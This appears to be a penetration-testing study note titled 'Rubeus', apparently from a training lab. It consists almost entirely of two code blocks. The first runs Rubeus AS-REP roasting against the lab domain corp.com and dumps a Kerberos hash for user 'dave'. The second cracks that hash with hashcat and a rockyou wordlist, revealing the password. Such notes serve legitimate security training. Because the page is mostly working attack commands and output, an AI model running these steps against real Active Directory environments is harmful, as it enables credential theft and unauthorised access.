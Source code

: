 ### Rubeus

{% code title="" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\jeff> cd C:\Tools

PS C:\Tools> .\Rubeus.exe asreproast /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: AS-REP roasting

[*] Target Domain          : corp.com

[*] Searching path 'LDAP://DC1.corp.com/DC=corp,DC=com' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : dave
[*] DistinguishedName      : CN=dave,CN=Users,DC=corp,DC=com
[*] Using domain controller: DC1.corp.com (192.168.50.70)
[*] Building AS-REQ (w/o preauth) for: 'corp.com\dave'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$dave@corp.com:AE43CA9011CC7E7B9E7F7E7279DD7F2E$7D4C59410DE2984EDF35053B7954E6DC9A0D16CB5BE8E9DCACCA88C3C13C4031ABD71DA16F476EB972506B4989E9ABA2899C042E66792F33B119FAB1837D94EB654883C6C3F2DB6D4A8D44A8D9531C2661BDA4DD231FA985D7003E91F804ECF5FFC0743333959470341032B146AB1DC9BD6B5E3F1C41BB02436D7181727D0C6444D250E255B7261370BC8D4D418C242ABAE9A83C8908387A12D91B40B39848222F72C61DED5349D984FFC6D2A06A3A5BC19DDFF8A17EF5A22162BAADE9CA8E48DD2E87BB7A7AE0DBFE225D1E4A778408B4933A254C30460E4190C02588FBADED757AA87A
```
{% endcode %}

{% code title="" overflow="wrap" lineNumbers="true" %}
```
kali@kali:~$ sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
$krb5asrep$dave@corp.com:ae43ca9011cc7e7b9e7f7e7279dd7f2e$7d4c59410de2984edf35053b7954e6dc9a0d16cb5be8e9dcacca88c3c13c4031abd71da16f476eb972506b4989e9aba2899c042e66792f33b119fab1837d94eb654883c6c3f2db6d4a8d44a8d9531c2661bda4dd231fa985d7003e91f804ecf5ffc0743333959470341032b146ab1dc9bd6b5e3f1c41bb02436d7181727d0c6444d250e255b7261370bc8d4d418c242abae9a83c8908387a12d91b40b39848222f72c61ded5349d984ffc6d2a06a3a5bc19ddff8a17ef5a22162baade9ca8e48dd2e87bb7a7ae0dbfe225d1e4a778408b4933a254c30460e4190c02588fbaded757aa87a:Flowers1
...
```
{% endcode %}
